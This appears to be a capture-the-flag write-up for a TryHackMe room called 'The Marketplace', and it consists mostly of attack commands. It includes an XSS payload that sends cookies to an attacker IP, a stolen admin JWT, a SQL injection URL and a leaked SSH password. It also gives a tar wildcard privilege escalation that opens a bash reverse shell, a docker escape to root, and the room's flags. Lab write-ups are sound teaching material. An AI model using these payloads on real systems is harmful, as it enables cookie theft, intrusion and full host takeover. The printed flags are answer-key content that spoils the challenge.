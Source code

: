 # The Marketplace



-----------------------------

Looks like you can create an account.


You can create a new listing, and try XSS

Both work.

XSS to get a cookie:

```
<img src="#" onerror="document.location='http://10.2.2.132:8000/?c='+document.cookie">
```

Got the admin cookie:

```
10.10.218.165 - - [23/Oct/2020 18:25:09] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDM0OTE5MDd9.XYS-w8vlcxgyaf9DfqRvGTgD_7JRrQTrxwIXj6EhtN4 HTTP/1.1" 200 -
```

Now logging in with the admin account we can find the flag.

# What is flag 1?

```
THM{c37a63895910e478f28669b048c348d5}
```

Now in the admin panel you can perform basic SQLi

```
http://10.10.218.165/admin?user=0%20UNION%20SELECT%201,%202,%203,4%20--
```

# What is flag 2? (User.txt)


Performing SQLi you can get the password hashes and messages. In the messages, you can see `jake` has a password set in SSH.

```
@b_ENXkGYUCAv3zJ
```

SSH in and get user.

```
THM{c3648ee7af1369676e3e4b15da6dc0b4}
```

Now for tar privesc:

```
echo "bash -c 'bash -i >& /dev/tcp/10.2.2.132/9999 0>&1'" > shell.sh

echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
sudo -u michael /opt/backups/backup.sh
```


# What is flag 3? (Root.txt)

Docker privesc

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

chmod +s /bin/bash
```


```
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```